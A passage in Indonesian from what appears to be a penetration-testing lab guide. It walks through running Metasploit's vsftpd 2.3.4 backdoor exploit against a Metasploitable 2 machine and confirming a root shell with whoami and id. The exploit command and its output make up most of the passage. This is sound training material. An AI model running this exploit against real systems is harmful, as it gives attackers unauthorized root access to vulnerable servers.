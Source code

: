 6.  **Jalankan Eksploit**: Gunakan perintah `exploit` atau `run` untuk melancarkan serangan.

    ```bash
    msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

    [*] 192.168.100.101:21 - Banner: 220 (vsFTPd 2.3.4)
    [*] 192.168.100.101:21 - USER: Backdoor trigger sent.
    [*] Command shell session 1 opened (192.168.100.10:43215 -> 192.168.100.101:6200) at 2025-10-21 11:30:00 -0500
    ```
![gambar9.png](images/gambar9.png)

    **SUKSES\!** Baris `Command shell session 1 opened` menandakan Anda telah berhasil mendapatkan akses *shell* ke mesin target.

7.  **Verifikasi Akses**: Anda sekarang berada di dalam *shell* mesin target. Jalankan beberapa perintah Linux untuk membuktikannya.

    ```bash
    whoami
    root
    id
    uid=0(root) gid=0(root)
    ifconfig
    ... (akan menampilkan konfigurasi jaringan Metasploitable 2) ...
    ```
    ![gambar10.png](images/gambar10.png)

    Hasil `uid=0(root)` menunjukkan Anda memiliki hak akses tertinggi di sistem. Anda telah berhasil mengkompromikan target.

